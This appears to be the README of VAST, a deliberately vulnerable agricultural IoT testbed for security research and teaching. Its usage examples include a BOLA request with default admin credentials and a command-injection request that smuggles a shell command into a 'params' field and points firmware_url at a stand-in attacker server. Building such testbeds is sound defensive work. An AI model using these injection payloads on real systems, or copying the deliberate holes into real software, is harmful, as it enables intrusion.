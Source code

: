 # VAST - Vulnerable Agricultural Sensor Testbed

## About VAST

VAST (Vulnerable Agricultural Sensor Testbed) is a containerized, vulnerable-by-design IoT framework specifically created for agricultural cybersecurity research, education, and testing. This platform simulates real-world agricultural IoT deployments while incorporating deliberate security vulnerabilities and sensor health anomalies.

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Docker](https://img.shields.io/badge/Docker-Ready-blue.svg)](https://www.docker.com/)


https://github.com/user-attachments/assets/4d1bbfe0-f433-469d-87a9-ad929b8d7b12



## Features

- **Multi-layered Architecture**: Simulates complete agricultural IoT stack from sensors to gateway to client
- **Deliberate Vulnerabilities**: Implements BOLA, command injection, DDoS capability, and resource exhaustion vulnerabilities
- **Sensor Health Simulation**: Models four fault types (stuck readings, drift, spikes, and dropouts)
- **Containerized Deployment**: Complete Docker-based implementation for reproducibility across environments
- **Advanced Monitoring**: Integrated Prometheus and Grafana dashboards for security and health visualization
- **Dataset Generation**: Tools for creating LLM-ready security datasets from framework interactions
- **Agricultural Context**: Realistic temperature patterns reflecting diurnal cycles and crop-specific ranges

## Getting Started

### Prerequisites

- Docker and Docker Compose
- 4GB RAM minimum (8GB recommended)
- Basic knowledge of IoT and cybersecurity concepts

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/EmilPasca/vast.git
   cd vast
   ```

2. Build and start the containers:
   ```bash
   docker-compose -f main.docker-compose.yaml up -d
   ```

3. Start the observability stack:
   ```bash
   docker-compose -f observability/docker-compose.yaml up -d
   ```


## Usage Examples

### Basic Temperature Monitoring

Access the simulated sensor data through the gateway API:

```bash
curl http://localhost:48080/data/TEMP001
```

### Vulnerability Testing

#### BOLA Vulnerability Example

```bash
curl -u admin:admin http://localhost:48080/users/premium_user/sensors
```

#### Command Injection Example

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
     http://localhost:12381/firmware/update
```

#### Sensor Fault Simulation

```bash
./docs/FaultSimulation/simulate-faults.sh --sensor localhost --port 12381 --fault drift --duration 120
```

### Dataset Generation

Generate datasets for machine learning and LLM-based analysis:

```bash
cd dataset-tools
python generate_resource_exhaustion_dataset.py --sensor temperature-sensor-01 --baseline 180 --duration 300
```

## Architecture

VAST implements a multi-layered architecture mimicking real-world agricultural IoT deployments:

```
┌─────────────────┐     ┌──────────────┐     ┌───────────────┐     ┌──────────────┐
│   Data Server   │◄────│  Sensors     │────►│  MQTT Broker  │◄────│  IoT Gateway │
└─────────────────┘     └──────────────┘     └───────────────┘     └──────────────┘
                                                                          ▲
┌─────────────────┐     ┌──────────────┐                                  │
│   Prometheus    │◄────│  Grafana     │◄─────────────────────────────────┘
└─────────────────┘     └──────────────┘
```

## Documentation

Comprehensive documentation is available throughout the repository:

- **Installation**: See the [Getting Started](#getting-started) section above for installation instructions
- [Architecture Overview](supplementary-materials/README.md#relationship-to-main-paper)
- **Vulnerabilities**:
  - [BOLA Vulnerability](supplementary-materials/vulnerability-details/bola-vulnerability.md)
  - [Command Injection Vulnerability](supplementary-materials/vulnerability-details/command-injection-vulnerability.md)
  - [DDoS Vulnerability](supplementary-materials/vulnerability-details/ddos-vulnerability.md)
  - [Resource Exhaustion Vulnerability](supplementary-materials/vulnerability-details/resource-exhaustion-vulnerability.md)
- [Dataset Generation](supplementary-materials/sensor-faults-simulation.md)


## Technical Methodology

Details on our technical implementation and analytical methods:

- [Sensor Fault Simulation](supplementary-materials/sensor-faults-simulation.md)
- [Detectability Score Calculation](supplementary-materials/detectability-calculation.md)
- [Fault Masking Methodology](supplementary-materials/fault-masking-methodology.md)
- [Wireshark Analysis of Attacks](supplementary-materials/analysis/wireshark-analysis.md)

## Contributing

We welcome contributions to VAST! Please see our [Contributing Guidelines](CONTRIBUTING.md) for details on how to submit pull requests, report issues, or request features.

## Disclaimer

VAST contains deliberately vulnerable components designed for educational purposes. Using these vulnerabilities outside of controlled educational or research environments may be illegal. The authors are not responsible for misuse of this framework.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE.md) file for details.

## Citation

If you use VAST in your research, please cite our paper:

```
Pasca, E.M.; Delinschi, D.; Erdei, R.; Baraian, I.; Matei, O. A Vulnerable-by-Design IoT Sensor Framework for Cybersecurity in Smart Agriculture. Agriculture 2025, X, X. https://doi.org/10.3390/xxxxx
```

## Ethical Considerations and Security Disclosure

**Important Notice**: This repository contains deliberately vulnerable code, attack implementations, and exploitation techniques designed for **educational and research purposes only**.

- **Potential for Harm**: The vulnerabilities demonstrated in this framework (BOLA, command injection, DDoS, resource exhaustion) can cause significant damage if deployed against production systems. Never deploy this code in production environments or use these techniques against systems without explicit permission.

- **Controlled Environment Use**: All testing, experimentation, and educational activities should be conducted in isolated environments completely disconnected from production networks or the internet.

- **Legal Implications**: Using these attack techniques against systems without proper authorization may violate computer crime laws in many jurisdictions, including but not limited to the Computer Fraud and Abuse Act (US), the Computer Misuse Act (UK), and similar legislation worldwide.

- **Responsible Disclosure**: Some implementation details have been modified or abstracted to prevent direct weaponization while maintaining educational value. However, the core concepts remain valid for understanding security vulnerabilities.

- **Academic and Educational Context**: This framework was developed to address the significant gap in agricultural IoT security education and research. Its purpose is to improve security awareness and defensive capabilities in this critical infrastructure sector.

By using this repository, you acknowledge these considerations and agree to use the knowledge and tools responsibly. The authors and contributors assume no liability for misuse of this software or the techniques it demonstrates.

## Acknowledgments

This work was supported by a grant of the Romanian National Authority for Scientific Research and Innovation, CCCDI - UEFISCDI, project number ERANET-CHISTERA-IV-TROCI 4/2024, within PNCDI IV.

This work is also supported by the project „Collaborative Framework for Smart Agriculture” – COSA that received funding from Romania’s National Recovery and Resilience Plan PNRR-III-C9-2022-I8, under grant agreement 760070.

This research has been supported by the CLOUDUT Project, cofunded by the European Fund of Regional Development through the Competitiveness Operational Programme 2014-2020, contract no. 235/2020.
